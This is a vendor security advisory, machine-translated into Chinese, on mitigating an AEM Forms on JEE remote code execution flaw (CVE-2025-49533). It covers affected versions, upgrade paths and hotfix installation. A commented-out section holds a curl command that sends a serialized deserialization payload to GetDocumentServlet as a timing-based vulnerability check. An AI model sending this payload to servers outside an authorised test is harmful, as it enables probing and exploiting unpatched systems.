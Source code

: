 ```yaml
---
title: 缓解AEM Forms on JEE的远程代码执行漏洞(CVE-2025-49533)
description: 缓解AEM Forms on JEE的远程代码执行漏洞(CVE-2025-49533)
contentOwner: khsingh
products: SG_EXPERIENCEMANAGER/6.5/FORMS
solution: Experience Manager, Experience Manager Forms
feature: Developing
role: Admin
source-git-commit: 4d7f0609173b4a2315877024d803da00e6654a23
workflow-type: tm+mt
source-wordcount: '721'
ht-degree: 0%

---
```



# 缓解AEM Forms on JEE的远程代码执行漏洞(CVE-2025-49533)

本文档提供了在AEM Forms on JEE中解决严重安全问题(CVE-2025-49533)的指南，该问题可能会导致通过不安全的servlet执行未经授权的代码。

## 了解AEM Forms部署类型

此漏洞会以不同的方式影响不同的AEM Forms部署。 了解部署类型对于确定适当的缓解步骤至关重要。

### 受影响的版本

* 从6.0到6.5的JEE版本上的所有AEM Forms都受此漏洞的影响。 当前仅维护和支持了AEM Forms 6.5及其Service Pack。 所有其他版本(6.0-6.4)的生命周期已终止(EOL)。

### 修复版本

* AEM 6.5 Forms Service Pack 23，提供了用于修复此漏洞的修补程序。

### 联合部署与JEE部署中的独立AEM Forms

**已联合部署(AEM Forms + CQ EAR)：**

* AEM Forms JEE和AEM (CQ)创作和发布企业应用程序存档(EAR)部署在同一台应用程序服务器上
* 通过Forms功能和AEM内容管理提供统一的环境

JEE Standalone上的&#x200B;**AEM Forms：**

* AEM Forms部署在应用程序服务器上，其中仅包含JEE组件，而不包含任何AEM EAR。
* 仅限于AEM Forms的JEE特定特性和功能

### 如何识别您的部署类型

要确定部署类型，请检查在应用程序服务器上实际部署的工件。 通常，但不限于，通过服务器的管理控制台来访问。

**共同部署的指示器：**

* `/lc`端点可在您的服务器上访问（例如，`https://your-server/lc`）
* 您可以访问AEM创作/发布端点。
* URL结构包含AEM路径，如`/content/`、`/apps/`、`/etc/`
* AEM内容管理功能与Forms一起提供

**独立指示器：**

* 只能访问管理员UI界面
* 无AEM创作/发布功能
* 仅限于Forms JEE特定的URL和界面


## 受影响的版本

| 产品 | 需要缓解的版本 | 符合修补程序条件的版本 |
|---------|-----------------------------|-----------------------------|
| JEE上的Adobe Experience Manager 6.5 Forms | 所有Adobe Experience Manager 6.5 Forms on JEE独立安装 | AEM 6.5 Service Pack 18（通过Service Pack 23） |

## 解决方法

### 特定于版本的解决方案

| AEM Forms 版本 | 必需操作 |
|---|---|
| AEM 6.5 Forms Service Pack 18 - Service Pack 22，带有AEM创作或发布EAR联合部署 | [升级到AEM 6.5 Service Pack 23或更高版本](/help/release-notes/release-notes.md) |
| AEM 6.5 Forms Service Pack 18 — 不带AEM创作或发布EAR联合部署的Service Pack 23(适用于JEE部署上的独立AEM Forms) | [应用修补程序](#apply-the-hotfix) |
| AEM 6.5 Forms Service Pack 17及更早版本 | &#x200B;1. [升级到AEM 6.5 Service Pack 23或更高版本](/help/release-notes/release-notes.md) <br> 2。 对于JEE部署上的独立AEM Forms，[应用修补程序](#apply-the-hotfix)。 |

> **注意**： AEM Forms正式仅支持最新的六个服务包。 旧版本的用户应首先升级到最新的Service Pack，然后实施所需的安全措施。

## 部署注意事项

### 对于群集环境

使用群集部署时：

* 在群集中的&#x200B;**所有节点**&#x200B;上应用修补程序安装
* 通过在所有服务器中使用相同的修补程序版本来保持一致性
* 在启动任何服务重新启动之前，完成所有节点的更新
* 使用验证步骤独立验证每个节点上的修复

### 对于单节点环境

在JEE独立部署中使用AEM Forms时：

* 由于没有要管理的额外节点，因此请遵循简化的流程
* 按照说明完成所有修补程序安装步骤

<!-- ## Vulnerability Verification

Before implementing the fix, verify if your system is vulnerable by executing the following tests:

### Test Commands

#### 1. Test with Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=H4sIAAAAAAAAAK1WTWxbRRCetR3bsZI2P80fhf4HkpS%2Bl5C2aXFEyA9tXV5IUEw4%2BGCtnxfnlffX3X3E6YEDElKvCC4ckRAcKIdISFQckLhy5gRCQkLigAQcygGp4md2nxOnIWqSNpH8dndmd76Zb2dmc%2Bc3aBEc%2Bm7Qt6gRScc1FrkTcEeuvRqxiH3w%2FegX96feWU9CogAp4dxiFuTswAsppzLgEnotddJUJ83ZTXm%2BHgJAAg2fDXjNoCG1V5iB57zAF0aFUV8dEMYMzpqnfv7o9q%2Fi1MfXEpB4AOUmvA3EgmzIg5BxuSahK0Z1qV8zlyR3%2FBoiItrUDmh24LrMlk4837ApjAZuxWVND%2B7%2F%2BeHgXX99IgFQDyV0BJEMI7kY4zpMrKYwrCQCPY%2BWDBH5xhbAOkV%2FDMeXjPvUNerClbYhOa0bReaFLpVMFHBsfX3hG%2F%2FOZ%2BNJSBegvez4VebLVyKvwngBDpXxgC9cJgsor5cgV66sSWYHVSYkJEulmRKky7ZLBS67SltomFWyvAUtZZ96TFGWsqCzvD2CB2%2BsKY9vDP7Fv4hroJf%2FHuip1X6IuVC3ifJEaebOvb6%2F0tniTw1x%2BtK3%2F3z1Naqfg%2FEMjBEYXxOBYNyhrhnSNTegVRFjXaXVGpPizJKMKsVGkIvxjgykCLyIlJpIqYmUmjGlpqbU3KDU1JSaPPKl4zFzuiKQLFtuGMtAmsARHZwTmEvaB%2BeWumACHbFLy4wLTITXCnMEyHUC7bOYFZL6cpm6EWv5%2FMT799778Y8XCKQnHd%2BROEkODS8TSM3iBeQgCR1t0AbtBA5bjs%2FiSyvGCF1WYCMARRhcN4QpueIIAhesRyAlT6BVJ8MbAfcI8CFrrwTNLcznSzvu9tzmXtEgiPEmV6pKrlG%2F6jKeV3HnXqrbLNS1k4EBApf36sJGLJvnCWSrgR15mOsEzu0rFDy6EvuEVM48fmAEPtkfl7siVqVnzhXnp%2BuOKKBId8AD4T%2FrNMypHHoULwhkGtwRmD4A5nJLQcRtdsVR2d3WyF5D1RwuC77PuO5DDNPlGQLHd0l7At07JD6GPWm7jfrraHa44gpnqleMEHyyXMZCrK%2Bh68PLbfAsnMvBWTCwoJcktd%2Bcp2GjAJ9serC4it6NTYxdnLh8cfzC%2BbFRbFbHrIfp83ASsAPgrwV%2FT0AGsji2ql4IOUjhHHsBfg%2BhxMSR4Ngy8iUcXtdbOvGb1kITuvDbFm%2BAbuyVgPMe6MVdfThXpvq1mSn1vijtdhPntYkTsbJhArRXR7UeQ4Wn8IQye%2Bx%2FZgt6tYPZS9rsSKzc0exxBE3o2Uk4hfBZGN4MWq2Vrv1TSBKrs%2Fv2u3fBXNebR3UgROlPa8wzMIhjTtP0NAxBa6TeqA7c%2B93mC3I0AwkCp3drlleCQL8YW3JjoXID3%2FjHfwFu%2FuL8Puld7T%2FoF2Bw1xcAg9pffQ3spb6SaPahWUz2nsWT27L4iNb36G%2BvTrjYXD%2BCtOJ%2FTymsKB6uEqirm26v%2FwfLba%2FhawoAAA%3D%3D
```

#### 2. Test with Non-Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=1234
```

**Note**: Replace `${FORMS_HOST}` with your actual Forms server hostname and port.

### Vulnerability Confirmation
* **Vulnerable System**: Response time ≥ 5 seconds for exploitable payload
* **Secure System**: Response time ~600ms for both payloads
* **Indicator**: Significant difference in response times confirms the vulnerability -->

## 缓解步骤

### 对于已联合部署CQ EAR的服务器

* 检查是否在JEE实例中联合部署AEM EAR
* 如果AEM创作或发布EAR是联合部署的，则[升级到AEM 6.5 Service Pack 23或更高版本](/help/release-notes/release-notes.md)

### 对于未联合部署CQ EAR的服务器(JEE上的AEM Forms Standalone)

#### 验证AEM Forms版本

1. 确保您具有AEM Workbench的管理访问权限。
1. [确保您的AEM Forms版本](https://experienceleaguecommunities.adobe.com/t5/adobe-experience-manager/how-find-the-aem-forms-version-using-the-aem-admin-or-system/m-p/603733)是AEM 6.5 Forms Service Pack 18（通过Service Pack 23）。

#### 应用修补程序

1. **下载修补程序：**
   * 访问Adobe Software Distribution以下载[修补程序](https://nam04.safelinks.protection.outlook.com/?url=https%3A%2F%2Fexperience.adobe.com%2F%23%2Fdownloads%2Fcontent%2Fsoftware-distribution%2Fen%2Faem.html%3Fpackage%3D%2Fcontent%2Fsoftware-distribution%2Fen%2Fdetails.html%2Fcontent%2Fdam%2Faem%2Fpublic%2Fadobe%2Fpackages%2Fcq650%2Fhotfix%2FAEM%25206.5%2520Unauthenticated%2520RCE%2520in%2520LiveCycle&data=05%7C02%7Ckhsingh%40adobe.com%7Cf29c8505258840beed0408ddbe2956ff%7Cfa7b1b5a7b34438794aed2c178decee1%7C0%7C0%7C638875806949179671%7CUnknown%7CTWFpbGZsb3d8eyJFbXB0eU1hcGkiOnRydWUsIlYiOiIwLjAuMDAwMCIsIlAiOiJXaW4zMiIsIkFOIjoiTWFpbCIsIldUIjoyfQ%3D%3D%7C0%7C%7C%7C&sdata=0GELRBKwhkAFB6fmXNIsbsruBXquhhWX1BMGySEZutY%3D&reserved=0)。
   * 将修补程序文件保存到本地计算机
   * 验证下载文件的完整性

2. **安装修补程序：**
   * 打开&#x200B;**AEM Workbench**
   * 连接到受影响的AEM Forms服务器
   * 导航到&#x200B;**窗口→显示组件→视图**
   * 在组件视图中右键单击，然后选择“安装组件”
   * 浏览并选择修补程序文件
   * 按照安装向导提示操作，等待完成

3. **等待和验证：**
   * 等待所有服务完全初始化

#### 疑难解答

**常见问题：**

* 验证所有AEM Forms服务是否已正确启动
* 检查应用程序服务器日志中是否有任何安装错误

